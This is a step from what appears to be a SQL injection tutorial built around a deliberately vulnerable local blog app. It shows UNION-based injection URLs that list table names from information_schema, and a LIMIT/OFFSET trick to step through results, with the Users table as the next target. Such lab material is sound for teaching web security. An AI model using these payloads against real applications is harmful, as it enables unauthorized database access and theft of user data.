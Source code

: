 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
**table_name** is the column where the tables get stored,
**table_schema** is the column where the databases get stored.

> **Note:**
>   is important to use **distinct(table_name)** because there is one table_name for each column of each table. 
> This means that if one table has 10 columns will be 10 rows in the table_name column

The we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (LIMIT + OFFSET) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** to get all the tables.

If all went well, we will have 3 tables:

[1]: Posts
[2]: Comments
[3]: Users

Of course we will focous in the **Users table**.

But this is for the next step.
that is it for now!!
